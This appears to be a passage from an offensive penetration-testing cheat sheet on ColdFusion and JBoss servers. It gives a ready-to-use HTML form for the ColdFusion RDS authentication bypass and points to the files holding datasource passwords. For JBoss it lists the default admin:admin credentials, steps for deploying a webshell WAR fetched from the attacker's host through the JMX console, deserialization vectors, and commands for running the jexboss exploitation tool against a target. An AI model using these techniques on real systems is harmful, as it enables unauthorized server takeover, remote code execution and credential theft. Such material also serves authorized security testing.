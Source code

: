 *Decrypt CFM Files back to source*
    
- https://github.com/disccomp/cfdecrypt

*CF RDS Logon Bypass (Create this html file locally and submit to obtain a auth session)*
```
    <form action="http://[HOSTNAME:PORT]/CFIDE/adminapi/administrator.cfc?method=login" method="post">
    <input name="adminpassword" type="hidden" value="" />
        <input name="rdsPasswordAllowed" type="hidden" value="1" />
        <input type="submit" />
    </form>
```
*For ColdFusion 6 and 7 the passwords for DataSources encrypted in the following XML files:*

- [ColdFusion_Install_Dir]\lib\neo-query.xml 

*For ColdFusion 8, 9 and 10:*

- [ColdFusion_Install_Dir]\lib\neo-datasource.xml


### Java

#### JBOSS

Default credential is "admin:admin"
```
0. Host your .jar/.war payload with webshell on local webserver

1. Navigate to the JMX Console on the target host (http://IP.Ad.dr.ess:port/jmx-console/) and search for “service=MainDeployer”. 

2. From here you’ll want to utilize the deploy() function since it allows you to enter a URL as a parameter value in java.net.URL.  In this field, enter your attack IP and the name of the WAR file in the URL box and then click the “Invoke” button. 
```

Other ways to gain execution
```
* jboss.deployment
* jboss.system (MainDeployer)
* http://localhost:8080/invoker/JMXInvokerServlet
* Java Deserialization Vuln via JMXInvokerServlet
* https://www.redteam-pentesting.de/en/publications/jboss/-bridging-the-gap-between-the-enterprise-and-you-or-whos-the-jboss-now
* https://github.com/frohoff/ysoserial
* https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
* https://www.cigital.com/blog/mitigate-java-deserialization-vulnerability-jboss/
```

Auto-check and exploitation tool (https://github.com/joaomatosf/jexboss)
```
    git clone https://github.com/joaomatosf/jexboss.git
    cd jexboss
    pip install -r requires.txt
    python jexboss.py -h
    python jexboss.py -host http://target_host:8080
```
